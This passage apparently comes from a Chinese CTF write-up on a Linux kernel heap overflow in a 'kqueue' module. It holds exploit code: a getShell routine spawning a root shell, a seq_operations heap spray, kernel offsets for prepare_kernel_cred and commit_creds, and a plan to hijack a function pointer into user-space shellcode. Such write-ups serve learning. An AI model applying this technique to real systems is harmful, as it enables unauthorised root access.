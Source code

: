 ```c

void getShell(){
    info_log("Ready to get root......");
    if(getuid()){
        error_log("Failed to get root!");
    }
    success_log("Root got!");
    system("/bin/sh");
}

#endif //ROOTFS_HEAP_OVERFLOW_H
```

另外注意，本题中的所有检查实际上都是虚张声势，因为err函数并没有让程序强制退出，仅仅只是输出了一行错误信息就允许继续运行下去了。因此利用的思路可以尽情放开。

刚刚打开qemu时，笔者想用调试的方法查看LKM的运行过程。实际上，如果能够读取到``/sys/module/kqueue/.text``、``/sys/module/kqueue/.data``、``/sys/module/kqueue/.bss``的值或使用``lsmod``命令，就能够获取到LKM相应段的基址，但本题中权限不允许。这就比较麻烦了，需要首先将断点下在用户态程序中，然后一步一步跟踪到内核找到相应函数的调用位置。笔者尝试过通过搜索字符串等方式获取基址，但都失败了。这也是笔者认为这道题最为恶心的一个部分了。~~（毕竟耗了一个晚上）~~

不过本题还好，不是太需要用到调试，下面的调试仅为演示。

测试代码：
```c
//
// Created by root on 22-7-13.
//

#include "heap_overflow.h"

size_t user_cs, user_ss, user_rflags, user_sp;

int main(){
    int seq_fd[0x200];

    save_status();
    int fd = open("/dev/kqueue", O_RDONLY);
    if(fd < 0)
        error_log("Cannot open /dev/kqueue!");

    request_t create_req = {
            .max_entries = 0xFFFFFFFF,
            .data_size = 0x20 * 8
    };
    for (int i = 0; i < 0x200; i++)
        seq_fd[i] = open("/proc/self/stat", O_RDONLY);
    ioctl(fd, CREATE_KQUEUE, &create_req);
    return 0;
}
```

这是进入ioctl函数中内核的执行情况，在kmalloc分配到内存后，查看周围的内存环境，发现有大量的重复内容，推测这就是前面0x200次打开stat文件申请到的seq_operations结构体。

![](https://img-blog.csdnimg.cn/3c85c15a2b374d01a4b24e4cd1fdb2da.png)
我们可以在IDA中打开vmlinux，找到执行start函数指针的位置（函数名为seq_read）：
![](https://img-blog.csdnimg.cn/8196e34339e84c70bc80459ca4c0a33d.png)
其与内核基址地址的差为0x201179。再找到``commit_creds``和``prepare_kernel_cred``的基址：
prepare_kernel_cred：偏移0x8C580。
![](https://img-blog.csdnimg.cn/2d98da570bc74161ba090bfc01054182.png)
commit_creds：偏移0x8C140
![在这里插入图片描述](https://img-blog.csdnimg.cn/397f050e23dc49e4a4ec2287a2ed1400.png)
在调用start前，内核将下一条指令的地址压入栈中，我们利用的就是这个地址，来获取内核的加载基址，进而执行``commit_cred(prepare_kernel_cred(NULL))``函数。自然地，我们可以写一个shellcode来完成这件事情。由于本题没有开启SMEP，因此我们可以直接用用户态的shellcode地址覆盖seq_operations中的地址，内核可以执行用户态的shellcode。
